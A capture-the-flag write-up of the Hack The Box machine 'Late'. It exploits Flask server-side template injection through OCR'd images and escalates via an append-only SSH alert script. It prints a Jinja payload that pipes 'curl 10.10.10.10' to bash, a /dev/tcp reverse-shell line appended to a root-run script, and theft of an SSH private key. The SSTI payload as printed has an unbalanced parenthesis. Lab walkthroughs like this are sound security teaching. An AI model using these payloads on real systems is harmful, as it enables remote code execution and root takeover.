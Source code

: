 ```yaml
---
layout: post
title: "[HTB] Late"
difficulty: Easy
tags: [ssti]
status: Complete
---
```

***

## Quick Hits:

| Info | Details |
| ---- | ------- |
| **IP Address** | 10.10.11.156 |
| **Difficulty** | 🟢 Easy |
| **Exploits** | Server-Side Template Injection |
| **Tools Used** |  |
| **Techniques Used** |  |
| **Interesting Files** |  |

#### Port Scan Results:

| Port | State | Service | Version |
| ---- | ----- | ------- | ------- |
| 22/tcp | open | ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open | http | nginx 1.14.0 (Ubuntu) |

***

## Walk-through

Visiting the website leads us to a simple landing page with marketing materials for an online photo editor. Going through the pages within the site gives us a link to `images.late.htb`, which we can include in our `/etc/hosts` file to browse.

### Server-Side Template Injection

The `images.late.htb` site contains an Image to Text conversion application. It uses some Optical Character Recognition (OCR) library to detect any text from an image, and return it back in the response. This application seems to be an implementation of [lucadibello/ImageReader](https://github.com/lucadibello/ImageReader), which renders the `text` output using the `render_template` function.

``` python
@app.route('/result')
def result():
    if "data" in session:
        data = session['data']
        return render_template(
            "result.html",
            title="Result",
            time=data["time"],
            text=data["text"],
            words=len(data["text"].split(" "))
        )
    else:
        return "Wrong request method."
```
{% raw %}
In Flask, the `render_template` function allows us to evaluate expressions using the `{{ ... }}` syntax. For example, mathematical expressions such as `{{7*7}}` would be evaluated and would result in an output of `49`. We can use this technique to execute code using the Flask engine.

We can create and image that simply says: `{{7*7}}`, and just as we thought, it gave us the following response, confirming the Server-Side Template Injection:

``` html
<p>49
</p>
```

This required a lot of tinkering of the image to get the exploit to work. The OCR was not particularly consistent, so a lot of characters were interpreted differently. In the end, I was able to create an image with the following payload to successfully create a reverse shell connection back to my machine:

``` python
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen("curl 10.10.10.10 | bash".read() }}
```
{% endraw %}
 **TIP:** I hosted a Reverse-Shell Bash script in an HTTP server so that it can pipe that over to `bash` after `curl`ing it.

***And, we're in!***

### Privilege Escalation

Running `linpeas.sh` would give us back an interesting script file: `/usr/local/sbin/ssh-alert.sh`. This seems to sends an email notification to `root@late.htb` whenever an SSH login is detected.

``` bash
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

When we check the file, it's actually owned by our current user `svc_acc`. So, we can change the script and it will execute our code when an SSH login is detected. However, when we try doing so, we are blocked because the `a` attribute for the file is set, meaning we can only append to it.

```
svc_acc@late:~$ ls -l /usr/local/sbin/ssh-alert.sh
-rwxr-xr-x 1 svc_acc svc_acc 433 Jul 25 21:01 /usr/local/sbin/ssh-alert.sh

svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
-----a--------e--- /usr/local/sbin/ssh-alert.sh
```

We can simply append a reverse-shell command to the `ssh-alert.sh` script to connect back to our machine. But first, we need to be able to login using SSH first. To do so, we can get the SSH private key of `svc_acct` from `home/svc_acc/.ssh/id_rsa` and copy it over to our machine.

```
svc_acc@late:/usr/local/sbin$ echo "bash -i >& /dev/tcp/10.10.10.10/37117 0>&1" >> ssh-alert.sh
```

Finally, we can then listen for the reverse-shell connection and use the private key of the `svc_acct` (`id_rsa`) to login through SSH, triggering the code we appended.

```
$ nc -nlvp 37117
listening on [any] 37117 ...
connect to [10.10.10.10] from late.htb [10.10.11.156] 41502
bash: cannot set terminal process group (1975): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# whoami
root
```
***And, we're done!***
